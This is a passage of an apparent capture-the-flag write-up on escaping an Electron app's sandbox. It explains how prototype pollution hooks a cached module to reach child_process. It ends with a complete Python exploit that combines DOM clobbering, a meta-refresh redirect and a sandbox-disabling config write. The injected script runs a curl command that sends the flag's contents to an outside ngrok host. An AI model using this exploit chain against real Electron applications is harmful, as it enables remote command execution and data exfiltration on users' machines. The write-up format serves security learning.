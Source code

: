 The variable `t` stores the cache of required functions. Since it's checking if `t[r]` is null or not, prototype pollution is available here.

By using `Object.defineProperty`, you can hook to setter function. Inside this setter function, `this` is points to the original object, which is the varialble `t` that holds all the cache.

The module I want to require is the `module` module. If I rewrite the setter for `"./lib/renderer/api/ipc-renderer.ts"`, the `module` module appears to be already cached in the unsandboxed environment. Hence, you can access it.

I used the payload described in [the research done by Black Hat](https://i.blackhat.com/USA-22/Thursday/US-22-Purani-ElectroVolt-Pwning-Popular-Desktop-Apps.pdf), which is as follows:

```javascript
this.module.exports._load("child_process").execSync("id")
```

### Final exploit

```python
import base64
from urllib.parse import quote

URL = "http://localhost:8080/"
EVIL = "https://tchenio.ngrok.io/"

script = """(async () =>{
    Object.defineProperty(Object.prototype, "./lib/renderer/api/ipc-renderer.ts", {
        set(v) {
            try {
                this.module.exports._load("child_process").execSync(atob("%s"));
            } catch(e) {}
            window.orig = v;
        },
        get(){
            return window.orig;
        } 
    });
    api.setConfig("__proto__", {
        sandbox: false,
    });
    api.window();
})()""" % base64.b64encode(f"curl {EVIL}?flag=$(/readflag|base64)".encode()).decode()

payload = f"<a id='dialog'><a id='dialog' name='close' href='cid:{script}'>"

payload = f'</h1><meta http-equiv="refresh" content="0; url=https://example.com/?x{quote(payload)}">'


import requests

s = requests.session()
r = s.post(URL + "api/payload", json={
    "payload": payload
})
print(r.status_code)
print(r.text)
```